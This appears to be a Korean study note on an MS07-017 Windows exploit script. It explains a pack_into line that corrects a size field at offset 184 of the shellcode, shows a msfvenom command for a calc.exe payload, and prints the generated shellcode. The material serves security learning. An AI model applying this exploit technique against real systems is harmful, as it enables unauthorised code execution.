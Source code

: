 bytearray 함수를 이용하여 shellcode를 shellcode_bytearrarydata라는 배열에 넣음<br>
shellcode_bytearrarydata에는 값이 하나씩 들어가기 시작. fc, e8, 82 ... ~<br>
- 배열에 왜 써야하냐!<br>
시작부터 184바이트 만큼 offset에 위치하는 데이터 값을 변경하고 add해줘야 정상적으로 들어가기 때문! <br>

<br>

```python
pack_into ("<h", shellcode_bytearraydata, 184, unpack_from("<h", shellcode_bytearraydata, 184)[0] - len(shellcode + padding2ret + ret + padding2edi))
```

1. <h : 리틀엔디안 기준으로 2바이트를 가져와줘. 일종의 포맷스트링 
2. shellcode_bytearraydat에 184번째 위치에 있는 데이터를 가져오는 것.
3. 184 : offset<br>
이게 하나의 문법으로 unpack_from을 통해 데이터가 추출된다.
pack_into 구문을 통해 재주입이 될 예정.

<br>

```python
len(shellcode + padding2ret + ret + padding2edi)<br>
```

쉘코드 길이, 패딩 길이, retn 길이, 두번째 패딩의 길이 값을 미리 빼준다.<br>
1. 헤더에 존재하는 pack ~~ 코드와 같은 역할을 함.
2. 뭔 일이 일어나냐! 
shellcode_bytearrarydata 배열에 값이 하나씩 들어가있는데, 그 데이터들 중에서 184바이트 옵셋에 있는 2바이트 데이터를 추출하게 된다. <br>

ex) 예시 <br>
예를 들어 배열에서 2바이트 추출된 데이터가 12 34이다. 리틀엔디안을 통해 3412 라는 데이터로 나오게 되는데, 이 값에 미리 (쉘코드 길이, 패딩 길이, retn 길이, 두번째 패딩)을 합한 사이즈만큼 빼주는 것. 메모리 상에서 사이즈 값만큼 더해져서 빼주고, 빼둔 3412라는 값을 1234가 있던 자리에 재주입. <br>

요약 : pack_into ~ 자체가 배열에서 184바이트 옵셋에 위치하는 데이터 값을 청크 사이즈만큼 sub하고 재주입해줘서 공격이 실패할 경우를 방지하는 애다.


### 1. 계산기 띄우기

해당 스크립트 실행

```shell
msfvenom --payload windows/exec --platform windows --format python --smallest CMD=calc.exe
```

<br>

나온 쉘코드를 05.ms07017_exploit_fixpayload.py에 수정

```python
shellcode =  b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
shellcode += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
shellcode += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
shellcode += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
shellcode += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
shellcode += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
```
